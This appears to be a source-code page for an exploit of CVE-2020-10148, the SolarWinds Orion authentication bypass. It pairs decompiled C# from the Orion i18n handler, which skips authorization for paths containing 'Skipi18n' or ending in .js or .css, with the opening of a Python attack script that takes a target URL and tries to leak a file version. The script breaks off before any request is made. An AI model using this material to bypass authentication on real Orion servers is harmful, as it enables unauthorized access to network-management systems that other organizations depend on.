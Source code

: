 '''
private static void OnRequest(object sender, EventArgs e)
		{
			HttpApplication httpApplication = (HttpApplication)sender;
			HttpContext context = httpApplication.Context;
			string path = context.Request.Path;
			if (path.IndexOf("Skipi18n", StringComparison.OrdinalIgnoreCase) >= 0)
			{
				if (context.User == null || !context.User.Identity.IsAuthenticated)
				{
					context.SkipAuthorization = true;
					context.User = new NullUser();
				}
				return;
			}
			if (path.EndsWith(".css", StringComparison.OrdinalIgnoreCase) || path.EndsWith(".js", StringComparison.OrdinalIgnoreCase))
			{
				if (context.User == null || !context.User.Identity.IsAuthenticated)
				{
					context.SkipAuthorization = true;
					context.User = new NullUser();
				}
				LocalizerHttpHandler.RedirectToMe(context, context.Request.Path);
				return;
			}
			if (!path.EndsWith(".i18n.ashx"))
			{
				return;
			}
			string revisedFile = path.Substring(0, path.Length - ".i18n.ashx".Length);
			string path2 = i18nRedirector.RebuildPath(context.Request.QueryString, revisedFile);
			context.RewritePath(path2);
		}

        private static string RebuildPath(NameValueCollection nvc, string revisedFile)
		{
			return "/Orion/i18n.ashx?file=" + revisedFile + "&" + string.Join("&", (from x in nvc.AllKeys
			where x != "file"
			select x into key
			select string.Format("{0}={1}", HttpUtility.UrlEncode(key), HttpUtility.UrlEncode(nvc[key]))).ToArray<string>());
		}
'''


#/usr/local/bin/python3
import requests
import sys


if len(sys.argv) < 2:
    print ("[*] Usage : CVE-2020-10148.py http(s)://target")
    exit(-1)

if not(sys.argv[1].startswith("http://")):
    if not(sys.argv[1].startswith("https://")):
        print("[-] target starts either with http:// or https://")
        exit(-1)


print ("[*] Trying to leak valid file version")
target = sys.argv[1]

# appending .js to always invalid file 